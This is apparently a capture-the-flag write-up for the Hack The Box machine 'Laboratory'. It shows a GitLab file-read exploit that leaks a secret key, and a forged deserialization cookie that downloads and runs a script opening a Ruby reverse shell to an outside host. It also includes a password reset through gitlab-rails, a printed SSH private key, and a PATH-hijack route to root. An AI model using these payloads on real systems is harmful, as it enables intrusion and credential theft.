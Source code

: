 ![LABORATORY](images/banner.png)
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

First we see that there is a subdomain at `git.laboratory.htb`. We add this to our `/etc/hosts`.

Visitng `git.laboratory.htb` we find a form to register. 
To get a valid email just use something@`laboratory.htb`:

![register.png](images/register.png)

Enumerating a bit we find the GitLab Version 12.8.1:

![help.png](images/help.png)

So for this version we find an [arbitary file read vulnerability](https://hackerone.com/reports/827052).

At first we need to create two new projects e.g. `Project 1` and `Project 2`:

![projects.png](images/projects.png)

To get a LFI we need to create an issue in one project like:
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```
Now we can reed the `/etc/passwd` file after moving the issue to the other project:

![LFI.png](images/LFI.png)

Following the [hackerone article](https://hackerone.com/reports/827052) further we can get the secrets key base with:
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```
As output we get:

![secret.png](images/secret.png)

```sh
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

As we can't go any further here or receive a shell we need to set up our own gitlab from https://packages.gitlab.com/gitlab/gitlab-ce/packages/debian/jessie/gitlab-ce_12.8.1-ce.0_amd64.deb.
Now we modify our `/etc/gitlab/gitlab-secrets.json` with the secret_key_base with the key we received from the target machine.

We start `sudo gitlab-rails console` and manipulate our cookie with:
```sh
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `wget 10.10.14.27:1234/test.sh && chmod +x test.sh && ./test.sh` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

The `test.sh` we set up like:
```sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

(don't forget to set up your listener though)

We can use this curl command to send our cookie to achieve command execution at the target machine:
```sh
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=COOKIE" --insecure
```

We now receive a shell as user `git`.


## User

At the GitLab we found another user called `Dexter`:

![nutzer.png](images/nutzer.png)

With a shell as user `git` we can now change the password of the user `Dexter` with:
```sh
gitlab-rails runner "usr = User.find_by_username('dexter'); usr.update(password: '123456789'); usr.save"
```

We can login with dexter:123456789 at GitLab now and view his projects:

![dexter_projects.png](images/dexter_projects.png)

In his project SecureDocker we find a ssh private key:
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

We can ssh to `Dexter` with `ssh -i ./key dexter@10.10.10.216`.

## Root

Logged in as user `Dexter` we run LinPeas with the following interesting output:
```sh
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root dexter 16720 Aug 28 14:52 /usr/local/bin/docker-security
```
This is always executed with root permission.
Let's find out what this `docker-security` does:
```sh
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                                                  = -1
setgid(0)                                                                                                                                  = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                     = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                     = 256
+++ exited (status 0) +++
```

So there is `chmod` used with a relative path. This gives us the idea to create our own `chmod` in our home directory. Like this: 
```
#!/bin/bash
cp /bin/bash /home/dexter/bash
/bin/chmod +s /home/dexter/bash
```
Don't forget to make it executable.
Now we need to add the location of our own `chmod` to our path with:
```sh
export PATH=/home/dexter/:$PATH
```

Calling `/usr/local/bin/docker-security` executes our own `chmod` now which copies `bash` in our home directory and set the SUID bit.

![ls.png](images/ls.png)

We can now get a root bash with `./bash -p`.
